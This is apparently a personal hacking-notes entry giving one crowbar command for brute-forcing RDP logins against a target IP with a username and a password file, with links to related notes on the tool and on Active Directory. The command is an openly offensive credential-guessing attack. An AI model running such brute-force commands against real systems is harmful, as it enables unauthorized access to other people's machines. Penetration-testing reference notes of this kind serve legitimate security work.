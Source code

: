 # crowbar brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

# References
- [20221003150780](/zet/20221003150780/README.md) crowbar
- [20221003150778](/zet/20221003150778/README.md) crowbar brute force RDP active directory domain joined
- ~/kb/hacking/commands/crowbar.md

Tags:
    #assorted #command #hacking #crowbar
